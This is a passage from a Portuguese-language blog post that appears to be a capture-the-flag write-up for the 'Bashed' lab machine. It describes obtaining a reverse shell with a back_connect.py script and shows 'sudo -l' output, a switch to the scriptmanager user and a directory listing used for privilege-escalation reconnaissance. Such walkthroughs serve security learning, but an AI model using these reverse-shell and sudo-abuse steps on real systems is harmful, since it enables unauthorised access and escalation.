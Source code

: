 <img class=" size-full wp-image-1613 aligncenter" src="https://brenn0.files.wordpress.com/2018/04/get_to_dev_shm_back_connect.png" alt="get_to_dev_shm_back_connect" width="654" height="212" />

<p style="text-align:justify;">Aí foi só rodar meu script com o comando <em>python back_connect.py</em> e voltar ao meu terminal para ver isso aqui:</p>

<img class="alignnone size-full wp-image-1614" src="https://brenn0.files.wordpress.com/2018/04/got_a_shell.png" alt="got_a_shell" width="777" height="44" />

<p style="text-align:justify;">Temos uma bela shell!</p>

<p style="text-align:justify;">Só pelo hábito, assim que peguei a shell, usei o comando <em>sudo -l</em> para ver se o usuário www-data tinha alguns privilégios:</p>

[code]www-data@bashed:/dev/shm$ sudo -l
Matching Defaults entries for www-data on bashed:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL
www-data@bashed:/dev/shm$[/code]

Olha só, podemos executar qualquer coisa como scriptmanager sem precisar usar senha.

[code]www-data@bashed:/dev/shm$ sudo -u scriptmanager bash
scriptmanager@bashed:/dev/shm$[/code]

<p style="text-align:justify;">Virei scriptmanager. Soa melhor que <a href="https://askubuntu.com/questions/873839/what-is-the-www-data-user" target="_blank" rel="noopener">www-data</a>. E, como um usuário de verdade (sei disso porque lembrei de ter visto uma pasta para ele em /home), provavelmente tem mais privilégios.</p>

<p style="text-align:justify;">Foi aí que comecei a fuçar no servidor, vendo que serviços rodavam, se havia algum vulnerável, versão do kernel e <a href="https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/" target="_blank" rel="noopener">o que era mais padrão para escalar privilégios</a>. Foi em meio a esse processo de reconhecimento que percebi algo fora do normal no diretório raiz: a pasta <em>scripts</em>.</p>

[code]scriptmanager@bashed:/$ ls -alh
total 88K
drwxr-xr-x 23 root root 4.0K Dec 4 13:02 .
drwxr-xr-x 23 root root 4.0K Dec 4 13:02 ..
drwxr-xr-x 2 root root 4.0K Dec 4 11:22 bin
drwxr-xr-x 3 root root 4.0K Dec 4 11:17 boot
drwxr-xr-x 19 root root 4.2K Feb 25 10:28 dev
drwxr-xr-x 89 root root 4.0K Dec 4 17:09 etc
drwxr-xr-x 4 root root 4.0K Dec 4 13:53 home
lrwxrwxrwx 1 root root 32 Dec 4 11:14 initrd.img -&gt; boot/initrd.img-4.4.0-62-generic
drwxr-xr-x 19 root root 4.0K Dec 4 11:16 lib
drwxr-xr-x 2 root root 4.0K Dec 4 11:13 lib64
drwx------ 2 root root 16K Dec 4 11:13 lost+found
drwxr-xr-x 4 root root 4.0K Dec 4 11:13 media
drwxr-xr-x 2 root root 4.0K Feb 15 2017 mnt
drwxr-xr-x 2 root root 4.0K Dec 4 11:18 opt
dr-xr-xr-x 359 root root 0 Feb 25 10:28 proc
drwx------ 3 root root 4.0K Dec 4 13:03 root
drwxr-xr-x 18 root root 500 Feb 25 10:28 run
drwxr-xr-x 2 root root 4.0K Dec 4 11:18 sbin
drwxrwxr-- 2 scriptmanager scriptmanager 4.0K Feb 25 13:45 scripts
drwxr-xr-x 2 root root 4.0K Feb 15 2017 srv
dr-xr-xr-x 13 root root 0 Feb 25 10:33 sys
drwxrwxrwt 14 root root 4.0K Feb 25 13:51 tmp
drwxr-xr-x 10 root root 4.0K Dec 4 11:13 usr
drwxr-xr-x 12 root root 4.0K Dec 4 11:20 var
lrwxrwxrwx 1 root root 29 Dec 4 11:14 vmlinuz -&gt; boot/vmlinuz-4.4.0-62-generic[/code]
